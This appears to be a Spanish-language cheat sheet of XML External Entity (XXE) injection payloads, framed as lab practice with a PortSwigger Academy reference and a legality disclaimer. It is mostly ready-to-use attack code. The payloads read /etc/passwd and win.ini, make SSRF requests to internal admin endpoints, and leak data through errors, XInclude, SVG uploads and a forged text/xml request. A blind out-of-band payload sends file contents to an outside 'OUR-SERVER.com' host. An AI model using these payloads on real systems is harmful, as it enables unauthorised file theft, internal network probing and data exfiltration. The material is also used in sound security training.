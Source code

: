 
# Payloads para XXE (XML External Entity Injection)

En esta guía recopilamos los **payloads más importantes para explotar XXE**, explicando su uso, objetivo y contexto. Todos estos ejemplos deben probarse únicamente en entornos de laboratorio.

---

## 1. Lectura de archivos locales (File Disclosure)

El payload clásico para leer un archivo del sistema:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
````

* Definimos `xxe` como una entidad que apunta a un archivo local.
* El servidor reemplaza `&xxe;` por el contenido del archivo.

Otro ejemplo apuntando a un archivo sensible en Windows:

```xml
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> 
]>
<data>&xxe;</data>
```

---

## 2. SSRF mediante XXE

Podemos obligar al servidor a realizar peticiones HTTP a recursos internos:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

* Útil para descubrir **servicios internos** o interactuar con APIs.

---

## 3. XXE Ciego con exfiltración Out-of-Band (OOB)

Cuando la respuesta no nos devuelve directamente el resultado, podemos extraer datos enviándolos a un servidor bajo nuestro control.

Ejemplo para filtrar `/etc/passwd` hacia un servidor externo:

```xml
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OUR-SERVER.com/?data=%file;'>">
  %eval;
  %exfil;
]>
```

* `%file` lee `/etc/passwd`.
* `%eval` construye una nueva entidad.
* `%exfil` envía el contenido a `OUR-SERVER.com`.

---

## 4. Basado en errores (Error-based XXE)

Provocamos un fallo que revele datos en el mensaje de error:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY fail SYSTEM "file:///does/not/exist/%xxe;">
]>
<foo>&fail;</foo>
```

---

## 5. XInclude (cuando no podemos usar DOCTYPE)

Algunos entornos bloquean `DOCTYPE`, pero podemos usar XInclude:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

---

## 6. XXE vía subida de archivos

Podemos incrustar payloads en archivos basados en XML, como SVG:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg height="100" width="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

Si el servidor procesa el SVG, mostrará el contenido de `/etc/passwd`.

---

## 7. Cambio de Content-Type

Forzamos a que un endpoint interprete entrada como XML:

```
POST /api HTTP/1.1
Host: vulnerable.com
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>
```

---

## Resumen rápido

| Payload / Técnica       | Ejemplo clave                                          | Objetivo principal |
| ----------------------- | ------------------------------------------------------ | ------------------ |
| File Disclosure         | `<!ENTITY xxe SYSTEM "file:///etc/passwd">`            | Leer archivos      |
| SSRF via XXE            | `<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">`        | Pivoting interno   |
| Blind XXE (OOB)         | `%exfil SYSTEM "http://OUR-SERVER.com/?%file;"`        | Exfiltración       |
| Error-based XXE         | `<!ENTITY fail SYSTEM "file:///does/not/exist/%xxe;">` | Filtrado por error |
| XInclude                | `<xi:include href="file:///etc/passwd"/>`              | Sin DOCTYPE        |
| File upload (SVG, DOCX) | SVG con `&xxe;`                                        | Vía ficheros XML   |
| Modified Content-Type   | Mandar XML en `text/xml` aunque no se espere           | Forzar parser      |

---

## Conclusión

Estos payloads representan los escenarios más comunes de explotación XXE.
La práctica en laboratorios como **PortSwigger Academy** es fundamental para afianzar estas técnicas.
Siempre debemos recordar que en entornos reales, el uso ofensivo sin autorización es ilegal: lo aplicamos solo en entornos de pruebas controladas.

---

